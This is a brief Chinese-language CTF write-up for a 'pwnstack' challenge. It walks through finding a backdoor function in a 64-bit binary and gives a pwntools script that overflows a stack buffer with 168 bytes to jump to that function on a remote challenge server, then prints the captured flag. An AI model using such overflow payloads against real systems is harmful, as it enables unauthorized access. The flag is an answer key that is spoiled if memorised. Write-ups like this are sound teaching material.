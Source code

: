 # Pwn
## pwnstack

下载附件，里面有个文件叫pwn2，是64位无壳的。用ida64打开，找到vul()和backdoor()函数。

![ps1](./pic/ps1.png)

在kali中用objdump可以知道backdoor函数的地址，并写出脚本。

![ps2](./pic/ps2.png)

```python
from pwn import *

backdoor_addr = 0x400762
payload = b'a'*168+p64(backdoor_addr)
p = remote('61.147.171.105', 65153)
p.sendline(payload)
p.interactive()
```

得到flag：cyberpeace{da27878f542ca6af0d922f3b72c015a4}